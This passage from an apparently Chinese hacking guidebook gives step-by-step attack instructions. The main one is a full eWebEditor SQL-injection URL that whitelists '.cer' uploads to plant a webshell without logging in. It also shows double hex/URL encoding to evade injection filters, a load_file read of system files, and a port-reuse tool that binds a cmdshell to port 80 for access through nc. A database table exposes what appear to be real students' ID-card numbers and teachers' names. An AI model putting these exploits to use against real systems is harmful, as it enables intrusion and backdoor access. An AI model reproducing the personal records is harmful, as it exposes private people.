前面 `and 1=2` 被代入程序中包含的第一个语句中，这个结果明显为“假”；后面的第二个语句 `select 1,2,3,4,5,password,7 from admin` 被代入到程序中。在正常情况下，本来程序所获得的页面信息是从第一个语句中得到的，但现在变成了从第二个语句中获得，于是第二个语句的查询结果就被程序显示到了页面上。在这个过程中，我们的 `union` 语句成功“欺骗”了程序。

这里我们可以一样地欺骗 ewebeditor 程序中关于限制上传文件类型的字段 `S_ImageExt`。使用默认用户及密码登录后添加一个 `cer` 文件，然后上传木马成功，其原理就是修改了字段 `S_ImageExt`，加上了 `cer` 类型，如图1，是在后台添加 `cer` 类型后数据库中该字段的变化。

| S_ImageExt |
| :--- |
| gif\|jpg\|jpeg\|bmp\|cer |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |
| gif\|jpg\|jpeg\|bmp |

现在我们构造的思路就是在联合查询的 `S_ImageExt` 字段后加一个 `|cer`。这样当程序从我们构造的 `union` 注入第二句中读取数据时，实际上读取了 `S_ImageExt` 字段中原来有的四种类型“gif|jpg|jpeg|bmp”和加“|cer”程序的运算法则，最后的结果就是“gif|jpg|jpeg|bmp|cer”，这样我们就能上传一个 `cer` 后缀的木马了。

以前这样是需要进入后台修改数据库才能做到，现在我们只用欺骗程序就能做到。下面进入具体操作步骤，`union` 的必要条件是两条语句的字段要相等，先下载一个 ewebeditor 数据库看一下有哪些字段，如图2。

字段相当多，把它们一条条整理出来：

| S_ID | S_Name | S_Dir | S_CSS | S_UploadDir | S_Width | S_Height | S_Memo | S_IsSys | S_FileExt | S_FlashExt | S_ImageExt | S_MediaExt | S_RemoteExt | S_FileSize |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 14 | standard | standard | office | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 22 | s_full | standard | coolblue | UploadFile/ | 550 | 650 | 酷蓝样式，全部... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 23 | s_light | standard | light | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 24 | s_blue | standard | blue | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 25 | s_green | standard | green | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 26 | s_red | standard | red | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 27 | s_yellow | standard | yellow | UploadFile/ | 550 | 350 | Office标准风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 28 | s_3d | standard | office3d | UploadFile/ | 550 | 350 | Office标准风格3 | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 29 | s_coolblue | standard | coolblue | UploadFile/ | 550 | 350 | COOL界面，蓝色... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 34 | s_mini | standard | coolblue | UploadFile/ | 550 | 350 | mini全菜单风格... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 40 | s_popup | standard | coolblue | UploadFile/ | 550 | 350 | 酷蓝样式，主要... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 42 | s_newssystem | standard | coolblue | Example/NewsSys | 550 | 350 | 酷蓝样式，用于... | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| 45 | s_exampleremote | standard | coolblue | UploadFile/ | 550 | 350 | 用于远程文件上传 | 0 | rar\|zip\|doc\|xls\|swf |  |  |  |  | 500 |
| * | (自动编号) |  |  | UploadFile/ | 0 | 0 |  | 0 |  |  |  |  |  | 0 |

S_ID, S_Name, S_Dir, S_CSS, S_UploadDir, S_Width, S_Height, S_Memo, S_IsSys, S_FileExt, S_FlashExt, S_ImageExt, S_MediaExt, S_RemoteExt, S_FileSize, S_FlashSize, S_ImageSize, S_MediaSize, S_RemoteSize, S_StateFlag, S_DetectFromWord, S_InitMode, S_BaseUrl, S_UploadObject, S_AutoDir, S_BaseHref, S_ContentPath, S_AutoRemote, S_ShowBorder

注意字符不要输错，现在把这些字段代入我们构造的 `union` 语句里：

```sql
' union select S_ID, S_Name, S_Dir, S_CSS, S_UploadDir, S_Width, S_Height, S_Memo, S_IsSys, S_FileExt, S_FlashExt, [S_ImageExt] %2B '|cer', S_MediaExt, S_RemoteExt, S_FileSize, S_FlashSize, S_ImageSize, S_MediaSize, S_RemoteSize, S_StateFlag, S_DetectFromWord, S_InitMode, S_BaseUrl, S_UploadObject, S_AutoDir, S_BaseHref, S_ContentPath, S_AutoRemote, S_ShowBorder from ewebeditor_style where s_name='standard' and 'a'='a
```

语句第一个“'”号是为了闭合前面的语句，这是字符型的注入点，最后的 `and 'a'='a` 是为了闭合后面的语句，`where s_name='standard'` 是指定要影响的样式名称，`,[S_ImageExt]%2B'|cer'` 是“+|%2B”，这里加号要作转义，不然会被服务器当成空格处理。

然后把这个语句用 nc 提交上传，就能得到上传 `cer` 后缀文件的功能。至于 `union` 的另一个条件，就是让第一句的结果为“假”，这太容易了，在 `style` 后面输入一个不存在的类型，或干脆不输入就可以了。

最后构造出来的完整上传 URL 如下：

```text
http://www.nohack.com/ewebeditor/upload.asp?action=save&type=IMAGE&style=' union select S_ID, S_Name, S_Dir, S_CSS, S_UploadDir, S_Width, S_Height, S_Memo, S_IsSys, S_FileExt, S_FlashExt, [S_ImageExt]%2B'|cer', S_MediaExt, S_RemoteExt, S_FileSize, S_FlashSize, S_ImageSize, S_MediaSize, S_RemoteSize, S_StateFlag, S_DetectFromWord, S_InitMode, S_BaseUrl, S_UploadObject, S_AutoDir,
S_BaseHref,S_ContentPath,S_AutoRemote,
S_ShowBorder from ewebeditor_style where
s_name='standard' and 'a'='a
```

以这个 URL 为提交地址构造 nc 上传包，构造好的包内容如图3。

提交后，能成功得到 `cer` 后缀的一个 webshell，如图4，`20096172725130.cer` 就是后门文件。而在此过程中，我们并没有登录过后台，也不知道管理员的密码，一样达到最终效果。

该思路的进一步挖掘还能发展出其它运用，余下的就交给读者们自己去思考吧。

```html
oForm.submit = function() {
    if (this.submitUpload) {
        for (var i = 0 ; i < this.submitUpload.length ; i++) {
            this.submitUpload[i]();
        }
    }
    this.originalSubmit();
}
// 上传表单已装入完成
try {
    parent.UploadLoaded();
}
catch(e){
}
</script>
</body>
</html>
<script language=javascript>parent.UploadSaved('/eWebEditor/UploadFile/20096172725130.cer');var obj=parent.dialogArguments.dialogArguments;if (!obj) obj=parent.dialogArguments;try{obj.addUploadFile('1.cer', '20096172725130.cer', '/eWebEditor/UploadFile/20096172725130.cer');} catch(e){};history.back()</script>
```

## 二十三、双重编码绕过入侵检测

在本书介绍 ASCII 码字符和 UNICODE 字符等编码模式在入侵中的应用时，谈到过利用编码绕过一些过滤的限制。比如遇到单引号被过滤时，就把存在单引号的语句转换成 16 进制，然后采用建函数提交的方式绕过，这种做法使得你提交的数据包里回避了“'”号。

现在已经有专门的工具用来方便地实现这种编码转换和提交，如图1。

`'and '1'='1` 这个带有单引号的检测字符，经转换后成为了 `0x2700200061006E00640020002700310027003D0027003100`，然后我们放到例句中进行提交就会成功了。

```sql
DECLARE @S NVARCHAR(4000);SET @S=CAST(引用上面的十六进制代码 AS NVARCHAR(4000));EXEC(@S);
```

其它的字符转换应用在 MySQL 的注入中也会遇到。如果要设置读取或导出文件地址这个参数，也是需要用单引号的，标准语句如下：

```text
http://www.nohack.com/test.php?id=1 union selec 1;load_file('c:\boot.ini'),3/*
```

中间地址参数 `c:\boot.ini` 如果以正常字符提交，是必须有单引号的。经转换后可以写成以下格式回避单引号。

```text
http://www.nohack.com/test.php?id=1 union select 1, load_file(0x633A5C626F6F742E696E69),3/*'
```

以上是两个应用字符编码的小例子，因为不是本节内容所讲的主旨，在其它章节也有所介绍，所以一笔带过。其实利用字符编码绕过过滤的例子还有很多，例如以前绕过不完全注入检测系统时用到的方法，把注入连接：“http://www.nohack.com/test.php?id=111”中间的一个字母 d，用它的 URL 编码格式替换掉就可以了。

在工具里的操作是把“需要转换的类型”设为“URL 格式”，然后输入字母 d，单击“进行转换”，其 URL 编码为“%64”，如图2。

现在这个连接就成了“http://www.nohack.com/test.php?i%64=111”，进行注入时就能绕过那种有 bug 的注入检测系统了。

上面介绍这几种编码绕过漏洞的例子自然不是老生常谈、旧话重提。本书的宗旨是：揭秘、剖析、引导、深入。其实聪明的读者可能早就想到了对这种技巧进行深入应用的办法，如果对语句进行两种，甚至两种以上的字符转换，有时也能绕过过滤。

比如某网站在提交了转换后的编码“'and '1'='1”时弹出了一个提示框，如图3。

```html
script LANGUAGE="JavaScript">
function check(inputStr) {
    if (typeof(inputStr) != "string") { return inputStr; } //判断是否是字符
    var tmpValue = inputStr;
    //以下搜索字符串中的特殊字符，如果存在，则替换成""
    while (tmpValue.indexOf(';') > -1) {tmpValue = tmpValue.replace(';', '');}
    while (tmpValue.indexOf('<') > -1) {tmpValue = tmpValue.replace('<', '');}
    while (tmpValue.indexOf('>') > -1) {tmpValue = tmpValue.replace('>', '');}
    while (tmpValue.indexOf('select') > -1) {tmpValue = tmpValue.replace('select', '');}
    while (tmpValue.indexOf("declare") > -1) {tmpValue = tmpValue.replace("declare", "");}
    while (tmpValue.indexOf("insert") > -1) {tmpValue = tmpValue.replace("insert", "");}
    while (tmpValue.indexOf("update") > -1) {tmpValue = tmpValue.replace("update", "");}
    document.getElementById("and").value = tmpValue; //重新显示更改后的变量
}
```

遇到这种脚本过滤的情况，首先要考虑是哪种过滤，是本地的过滤，还是脚本内部的过滤。如图4，在源码中我们看到一个 sql.js 文件，果然就包括了对注入的检测。

可能读者会马上想到，把页面保存到本地，去掉这个过滤的 sql.js 文件直接提交注入不就行了吗？思路是对的，但是把问题想简单了，这种修改本地提交数据，并不是每次都能成功的。服务器会检测是不是从外部提交的，即便加了来源页面，也一样可以检测是否从外部提交。也就是说，我们必须得硬着头皮过 JS 过滤这一关。

JS 有一个特点，它所过滤的字符如果没有用正则表达式书写的话（关于正则表达式的知识在本书其它章节中有介绍），出现的结果将是只过滤了写入的标准字符。比如过滤 select，输入“se%6Cect”将成功提交，“%6C”是字母“l”的 URL 编码。至于“%6C”，不要担心服务器不能识别，当它被提交到服务器时会由 asp.dll 处理还原成字母“l”的。

我们用刚才使用过的转换工具把提交的如下语句进行 URL 编码，如图5。

```sql
DECLARE @S NVARCHAR(4000);SET
@S=CAST(0x2700200061006E006400200027
00310027003D0027003100 AS NVARCHAR(4000));
EXEC(@S);
```

语句 URL 编码后如下：

```text
%44%45%43%4C%41%52%45%20%40%53%20%4E%56%41%52%43%48%41%52%28%34%30%30%30%29%3B%53%
20%40%53%3D%43%41%53%54%28%30%78%32%37%30%30%32%30%30%30%36%31%30%30%36%45%30%
30%36%34%30%30%32%30%30%30%32%37%30%30%33%31%30%30%32%37%30%30%33%44%30%30%32%
37%30%30%33%31%30%30%20%61%73%20%4E%56%41%52%43%48%41%52%28%34%30%30%30%29%29%3B%
45%58%45%43%28%40%53%29%3B
```

之前的语句已经进行了 16 进制转换，这里又转换成了 URL 编码，这就是“双重编码”！

现在再提交最终编码后的语句，页面上没有弹出 JS 提示窗口了，成功绕过。这种双重，乃至多重编码的手法，在 SQL 注入及 XSS 等方面都是一个重要思路。一定要用发散性的思维一层层地利用编码在各个不同系统间的作用，像抽丝剥茧一样层层地解决问题。那些“跨站大师”们不正是掌握了这一思路吗？

# 第二章 神兵之力

## 二十四、连接并操作 MySQL 数据库

以前已经介绍过 MSSQL 的数据库操作工具及 MSSQL 查询分析器的使用，而 MySQL 的查询分析器还没有介绍过。菜鸟在学习网络安全技术时，通常是从 Access 数据库开始，然后依次学习到 MSSQL 数据库和 MySQL 数据库，这个过程是循序渐进的。

| user_school | user_position | user_ID_card | user_post_code | user_in |
|---|---|---|---|---|
| 影视学院 | 影视表演本科四年[311 | 130630198904110314 | 074300 | 班主任 刘春彦 |
| 现代艺术学院 | 影视表演本科四年[311 | 140203199004017013 | 037003 | 张艳芳 教师 |
| 汽车学院 | 机电一体化专科三年[扩 | 411325199007075518 | 473408 | 刘合 班主任 |
| 信息工程学院 | 工商企业管理本科四年 | 642224199008251634 | 755300 | 王亚洲 班主任 |
| 金融证券学院 | 心理危机干预本科四年 | 22010519910727102X | 130031 | 李凤娟 |
| 外国语学院 | 金融本科四年[扩招专业 | 230204199102091717 | 161000 | 班主任 李玉莲 |
| 金融证券学院 | 中英合作商务管理本科 | 500234199204091987 | 405408 | 文秦 班主任 |
| 欧美国际学院 | 电子商务本科四年[扩招 | 659004199009040523 | 831300 | 裴秀萍 |
| 信息工程学院 | 汽车技术服务本科四年 | 142328198708202233 | 032500 | 王计连 |
| 商学院 | 食品安全与检验本科四 | 610302199110040534 | 721006 | 王波-班主任 |
| 新闻与信息传播学院 | 影视表演本科四年[311 | 410102199012050028 | 450003 | 王娟 |
| 商学院 | 英语本科四年[扩招专业 | 500234199310206041 | 405401 | 金丹 |
| 现代艺术学院 | 旅游英语本科四年[311 | 500381199105040046 | 402260 | 文秦 |
| 新闻与信息传播学院 | 工商企业管理本科四年 | 610522199002128017 | 714000 | 渭南市杜桥中学 |
| 音乐舞蹈学院 | 影视表演本科四年[311 | 142703199008163017 | 043300 | 屈志龙 |
| 现代艺术学院 | 心理保健与咨询本科四 | 340403199105090621 | 232007 | 程莫 教师 |
| 商学院 | 请选择专业 | 760123198909215446 | 050800 | 胡顺利-老师 |
| 法政学院 | 工商企业管理四年 专科 | 371523199108270078 | 252000 | 刘奇文。高中班主任 |
| 现代艺术学院 | 园林与景观艺术设计本 | 410481199012221028 | 462500 | 王振兴 |
| 商学院 | 3G移动通讯技术本科四 | 520114199105040030 | 550009 | 熊岚(校长) |
| 新闻与信息传播学院 | 汉语言文学本科四年[扩 | 341281199106100624 | 236800 | 夏文豪 班主任 |
| 文化经济学院 | 影视表演本科四年[311 | 341281198901130748 | 236800 | 夏文豪 班主任 |
| 动画与游戏学院 | 计算机及应用本科四年 | 50023819881122510X | 404607 | 班主任：喻传松 |
| 商学院 | 民航服务与管理专科三 | 52011419900606001X | 550009 | 熊岚 |
| 商学院 | 请选择专业 | 410521199002283515 | 456575 | 王保祥 班主任 |
| 金融证券学院 | 涉外会计本科四年[311 | 340702199102252541 | 244001 | 胡宏群 |
| 外国语学院 | 饭店管理专科三年[扩招 | 632124199011041227 | 811602 | 祁生玉 总寨中学校长 |
| 汽车学院 | 汽车商务管理本科四年 | 410526198810283473 | 456466 | 王王彭 校长 |

Access 数据库不需要专门的环境，数据库的核心就是一个 mdb 文件，可以用 Office 工具直接打开进行编辑，如图1。

MSSQL 数据库的操作需要安装专门的程序 MSSQL 2000 或 MSSQL 2003 才能进行编辑和运行，不像 Access 那样不用安装其它软件，在脚本代码里就可以支持 Access。

MySQL 数据库的操作也需要安装专门的软件，如 MySQL 5.5。标准的 MySQL 操作工具和 MSSQL 的有根本性的不同，MSSQL 的查询分析器是一个 Windows 下的图形化操作工具，而 MySQL 的操作工具是几个命令行工具的集合。

在 MySQL 数据库的 bin 目录下包含了这些工具，如图2，常用的主要有：

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| mysql.exe | 2005/12/28 20:22 | 应用程序 | 1,324 KB |
| mysql_client_test.exe | 2005/12/28 20:22 | 应用程序 | 1,556 KB |
| mysqladmin.exe | 2005/12/28 20:22 | 应用程序 | 1,240 KB |
| mysqlbinlog.exe | 2005/12/28 20:22 | 应用程序 | 1,260 KB |
| mysqlcheck.exe | 2005/12/28 20:22 | 应用程序 | 1,228 KB |
| mysqld.exe | 2005/12/28 20:22 | 应用程序 | 3,864 KB |
| mysqld-debug.exe | 2005/12/28 20:22 | 应用程序 | 6,108 KB |
| mysqld-max.exe | 2005/12/28 20:22 | 应用程序 | 4,348 KB |
| mysqld-max-nt.exe | 2005/12/28 20:22 | 应用程序 | 4,356 KB |
| mysqld-nt.exe | 2005/12/28 20:22 | 应用程序 | 3,868 KB |
| mysqldump.exe | 2005/12/28 20:22 | 应用程序 | 1,268 KB |
| mysqlimport.exe | 2005/12/28 20:22 | 应用程序 | 1,228 KB |
| MySQLInstanceConfig.exe | 2005/11/14 11:05 | 应用程序 | 1,503 KB |
| mysqlmanager.exe | 2005/12/28 20:22 | 应用程序 | 1,280 KB |
| mysqlshow.exe | 2005/12/28 20:22 | 应用程序 | 1,232 KB |
| mysqltest.exe | 2005/12/28 20:22 | 应用程序 | 1,332 KB |

- MYSQL：在 MySQL 中执行 SQL 查询，也可以执行在文件中存储的 SQL 命令；
- MYSQLdump：将数据库或表的定义和内容转储到文件；
- MYSQLadmin：管理数据库服务器，包括数据库的创建和移除；
- MYSQLimport：将不同文件格式的数据导入到 MySQL 表中；
- MYSQLshow：显示服务器或者任何对象（数据库和表）的信息。

我们从图2中可以看到，在 MySQL 的 bin 目录下有许多 .exe 执行文件，其实最主要的是 mysql.exe，绝大部分对于 MySQL 数据库的操作都是用它实现的。输入命令 `MYSQL -?`，能显示该工具的帮助信息，如图3。

下面是部分帮助信息，配上了简短说明，注意 MYSQL 工具中的参数是区分大小写的，参数有两种，分为简写和完整参数，例如 `-B` 等同于 `--batch` 参数，指定一个即可。

- `-D, --database=name` 登录的数据库名，这是一个比较重要的参数，如果你只有某个数据库的管理权限时要指定这个；
- `-e, --execute=name` 执行命令；
- `-h, --host=name` 连接的主机名，也可以是 IP 地址；
- `-o, --one-database` 只更新默认的数据库，可以防止误操作造成严重破坏；
- `-p, --password[=name]` 登录密码，请注意这里是小写字母 p，下面指定端口号的是大写字母 P；
- `-P, --port=#` 目标 MySQL 服务器使用的端口号，如果目标修改过默认端口号 3306 时需要指定此参数；
- `--ssl` 使用 SSL 连接；
- `--ssl-ca=name` 使用 SSL 证书连接（PEM 格式的证书文件）；
- `--ssl-capath=name` 指定证书文件地址；
- `--ssl-cert=name` 使用 SSL 证书连接（cer 格式的证书文件）；
- `-u, --user=name` 登录用户名。

比如我们知道了用户名为 root，密码为空，IP 地址为 127.0.0.1，登录数据库为 MYSQL，登录端口 3306，输入命令如下，结果如图4。

```bash
MYSQL -u root -h127.0.0.1 -P3306 -DMYSQL
```

> 注意：MYSQL 数据库命令行操作工具的典型语法特点与我们一般使用工具在参数后空一格再写上数据不同，该工具的值是直接写在参数后的。比如，`-P` 是端口参数，正确的写法是 `-P3306`，表示 3306 端口，而不能写成 `-P 3306`。

当我们从返回的字符中看到如下信息，并且下方出现 `MYSQL>` 命令提示符，说明登录成功。这时可以输入 `\h` 查看在该状态下的帮助信息，如图5。

```sql
mysql> show tables;
+--------------------------+
| Tables_in_mysql          |
+--------------------------+
| columns_priv             |
| db                       |
| func                     |
| help_category            |
| help_keyword             |
| help_relation            |
| help_topic               |
| host                     |
| proc                     |
| procs_priv               |
| tables_priv              |
| time_zone                |
| time_zone_leap_second    |
| time_zone_name           |
| time_zone_transition     |
| time_zone_transition_type|
| user                     |
+--------------------------+
17 rows in set (0.00 sec)
```

```text
clear (\c) Clear command.
connect (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter. NOTE: Takes the rest of the line as new delimiter.
ego (\G) Send command to mysql server, display result vertically.
exit (\q) Exit mysql. Same as quit.
go (\g) Send command to mysql server.
help (\h) Display this help.
notee (\t) Don't write into outfile.
print (\p) Print current command.
prompt (\R) Change your mysql prompt.
quit (\q) Quit mysql.
rehash (#) Rebuild completion hash.
source (\.) Execute an SQL script file. Takes a file name as an argument.
status (\s) Get status information from the server.
tee (\T) Set outfile [to_outfile]. Append everything into given outfile.
use (\u) Use another database. Takes database name as argument.
charset (\C) Switch to another charset. Might be needed for processing binlog with multi-byte charsets.
warnings (\W) Show warnings after every statement.
nowarning (\w) Don't show warnings after every statement.

For server side help, type 'help contents'
mysql> _
```

中间最主要有三个命令，分别是“quit”，退出登录；“use 数据库名”，切换别的数据库进行操作；“go”表示发送命令开始执行，相当于在 MSSQL 数据库里那个箭头执行键的作用，在编写 SQL 脚本多句执行时需要用到。

```text
Welcome to the MYSQL monitor. Commands end with ; or \g.
Your MYSQL connection id is 1 to server version: 5.0.18-nt

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

```bash
C:\Users\pc>mysqldump -help
Usage: mysqldump [OPTIONS] database [tables]
OR    mysqldump [OPTIONS] --databases [OPTIONS] DB1 [DB2 DB3...]
OR    mysqldump [OPTIONS] --all-databases [OPTIONS]
For more options, use mysqldump --help
```

命令行下的 SQL 语句执行有一个显著的特点，那就是每一个命令后面需要一个“;”号才会执行。如图6，是执行“show tables”命令后的结果。如果不在语句后添加“;”号，则输入的语句不会马上被执行，而是作为一个脚本的一行进行存储，直到最后一行输入“;”号后才依次执行每一条语句，这个是多句执行时的输入方法。其它的语句输入方法也不用多介绍了，和普通的 MySQL 语句没有区别。

```sql
-- MySQL dump 10.10
--
-- Host: localhost    Database: mysql
-- ------------------------------------------------------
-- Server version    5.0.18-nt

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `columns_priv`
--

DROP TABLE IF EXISTS `columns_priv`;
CREATE TABLE `columns_priv` (
  `Host` char(60) collate utf8_bin NOT NULL default '',
  `Db` char(64) collate utf8_bin NOT NULL default '',
  `User` char(16) collate utf8_bin NOT NULL default '',
  `Table_name` char(64) collate utf8_bin NOT NULL default '',
```

下面看看命令行下的数据库管理工具 MYSQLdump，这个工具的作用是能很方便地把数据导出为文本，或将文本格式的文件导入数据库，使用“MYSQLdump -help”命令能看到帮助信息，如图7。

最常用的语句是：`mysqldump -uroot -p123456 -P3306 --opt MYSQL > MYSQL.test`。这个语句的意思是以账号 root、密码 123456、端口 3306 登录，将数据库 MYSQL 导出为 MYSQL.test 这个文件。文件里的信息是以文本形式保存的，我们可以用记事本打开查看其内容，如图 8。

`--opt` 参数表示快速导出，一般导出只需要用这个参数就够了。另一个工具 `MySQLImport.exe` 的作用是相反的，它可以把其它格式的文件导入数据库中。例如刚才导出的 MYSQL.test 可以用下面的命令重新导入数据库：

```bash
MySQLImport -p -u root -P "" --port 3306 < MYSQL.test
```

该语句表示把刚才导出的 MYSQL.test 文件导进数据库。

接下来介绍 `MySQLadmin` 工具，它是对账号和数据库，尤其是系统数据库，进行方便操作的工具，包括改管理员账号密码、添加删除数据库、重启数据库服务器等，比如以下命令：

```bash
MySQLadmin -uroot -p123456 password 654321
```

执行以上语句就能把数据库管理员密码由 123456 改为 654321。如果返回没有出错，说明执行成功了，如图 9。

```bash
MySQLadmin -uroot -p123456 shutdown
```

该语句表示关闭服务器，这个命令可要慎重使用。

其实关闭数据库、导入导出数据，或修改管理员账号，用 MYSQL 工具都可以做到，但是操作会比较复杂，需要用 `PASSWORD` 函数转换，并且修改密码后还需要用 `flush privileges;` 刷新权限才能生效。

如图 10，用 `update user set password=password("123456") where user="root"` 语句将密码改为“123456”（原密码是“654321”），退出后用老密码“654321”登录仍然成功。

执行一次 `flush privileges;` 刷新权限，再用老密码“654321”就登录不上了，只能用修改后的新密码“123456”进行登录，如图 11。

其它的操作（如导入导出数据等）也是一样的道理，`MYSQL.exe` 能做到但是操作复杂，用相应的工具进行操作则简单多了。

如果我们是在本地主机上连接远程服务器，大可不必用命令行下的工具（虽然笔者强烈推荐养成用命令行操作的好习惯），使用专门的 MYSQL 连接器能更直接地操作。该工具在第一次使用前需要注册，解压缩后运行“注册机.exe”，把下面“key”框中的值复制到注册窗口中，如图 12，单击“确定”。

注册成功后，在工具里填入相应的用户名、密码、主机 IP、登录数据库名，就可以开始登录了。在登录成功后，即可进行图文界面下的操作，如图 13。

其实 MYSQL 下的数据库操作要比 MSSQL 简单，通过本章的介绍，相信读者已能对其操作自如了。在安全检测中，通过命令行工具控制和操作数据库是必须掌握的，因为在内网渗透中基本都是通过返回一个 cmdshell 然后进行操作。一个只会图形化工具而不会命令行工具的 hack，是无法在内网渗透中施展开来的。

## 二十五、端口复用通道建立

当手中控制了一台服务器的 administrator 之后，有很多场合需要控制其对外连接，把关键的服务器或 CMD，甚至 GUI 操作界面返回到本地主机，以作为进一步渗透内网的跳板。不过对于防护严密的内网群组，让被控制主机和我们的电脑之间建立联系也是一件奢侈的事情。

在有防御的服务器上，黑客最常用的一种建立连接的手法是反向连接，利用的是一般防火墙只封闭外部对其的连接，而不封闭服务器自身发起的向外连接的特性。

这类工具最常用的是 lcx，如图 1，为该工具的主要用法介绍。

不过遇到对网络安全知识很了解的管理员，一般是没有任何机会的，现在很多防火墙的默认配置里就有屏蔽对外访问的端口模板。

在这种情况下，攻击者又有了一种改进的反向连接方法，这类连接利用的技术是 VPN，即虚拟专用网技术。虚拟专用网不是真的专用网络，但却能够实现专用网络的功能。

> 虚拟专用网指的是依靠 ISP（Internet 服务提供商）和其它 NSP（网络服务提供商），在公用网络中建立专用的数据通信网络的技术。在虚拟专用网中，任意两个节点之间的连接并没有传统专网所需的端到端的物理链路，而是利用某种公众网的资源动态组成的。所谓虚拟，是指用户不再需要拥有实际的长途数据线路，而是使用 Internet 公众数据网络的长途数据线路。所谓专用网络，是指用户可以为自己制定一个最符合自己需求的网络。

不过这个办法有时候也行不通，容易被封堵。这里我们介绍的是另一种方法，被称为端口复用技术。

一台主机总得通过某种方式向别的主机或 Internet 联系，就算是做了再多防御，所有对内对外的访问全被防火墙阻止掉的 WEB 服务器，也得对外开放 80 端口供用户访问，如果连这个也不提供，那干脆拔掉网线与世隔绝算了。

80 端口开放着，也就是说我们能很顺利地访问该 WEB 服务器，如果这个端口能被我们所用，透过它传达我们的控制命令就完美地突破了任何防火墙。但是假如你想在已经开放了 WWW 服务的主机上，在 80 端口再添加一项服务，只有 2 种可能：

- 添加服务失败；
- WWW 服务出错。

如图 2，80 端口已被别的程序占用时，IIS 就无法启动，反之道理也一样。

现在唯一的思路就是让 80 端口能同时运行两个程序，接收两种信号。在某些系统下，这还真的是不难做到的一件事。端口复用工具就是把 cmdshell 绑定到一个能被允许访问的端口上，然后等待我们去连接，就如上面所说的例子，利用唯一能访问的 80 端口，使这个开放的本来绑定有 IIS 服务的端口接收我们的指令。

工具的操作是很简单的，把它上传到你要进行联系的主机上，执行的命令格式为：`Rebind 要复用的端口 允许连接的 IP`。

为什么参数中要加一个允许连接的 IP 呢？如我刚才所说，复用端口是在一个正常提供服务的端口上绑定我们的 shell，等于是有两种数据在端口上传递，我们当然不会希望我们的 shell 数据被正常服务的使用者们接收到，所以把自己的 IP 加上去。这样当该端口被连接时，其它所有人都是在与正常通信的数据交换，而只有当我的 IP 连接上去时，才会被工具给予 cmdshell 的特殊待遇。

工具的使用很简单，我们绑定的端口是 80，192.168.1.68 是自己主机的 IP，每次使用端口复用时，都要填上当时的 IP 地址。输入命令：`rebind 80 192.168.1.68`，执行完毕后提示“Listening”说明绑定成功，如图 3。

接下来使用我们的老朋友“黑客瑞士军刀”nc 进行连接，命令格式为：`nc -vv IP 端口`，连接成功后我们就得到了远程主机的 cmdshell，如图 4。

试着执行 net 命令，在图 5 中，我们得到了正确的返回结果，现在就可以做我们想做的事了！

访问一下 80 端口绑定的 IIS 服务，还在正常地运行着。当需要关闭端口复用时（强烈建议当完成“使命”后关闭，以免长期使用复用端口带来服务器异常），只需要杀掉在远程服务器上运行的工具进程就可以了。

最后不得不遗憾地说，该工具目前仅支持 Windows 2000 和 XP，实用性有所折扣。能在更高版本操作系统下使用的端口复用工具，相信一些“职业玩家”已经有了，我们“普通玩家”也就只能看看而已。

## 二十六、入侵必备——最易用的 VPN

相信本书的绝大部分读者都还没有了解 VPN 的作用，有一定了解程度的读者，大概也有 90% 以上没有使用过 VPN。这是因为大家没有认识到 VPN 的作用，还有就是对自身安全没有足够重视。

虽然在学习网络安全的过程中进行一些入侵检测和渗透实验是难免的，如果不实践，永远是纸上谈兵。但是如果不注意自身的安全，肯定有朝一日会惹来麻烦，等到那一天就为时过晚了。

从安全的角度来说，当我们输入一些重要的密码内容，比如 FTP 空间密码，而这个空间的重要性足以让你对其采用任何安全防御措施时，VPN 也是一个让你的密码不被在同一内网中的主机嗅探到的好工具。比如你在网吧上网登录自己的 FTP 空间，而同网中的某一主机被人安放了嗅探器，VPN 可以让你防止被嗅探到。

VPN 的定义在前面已经提到过，这里再补充一下：

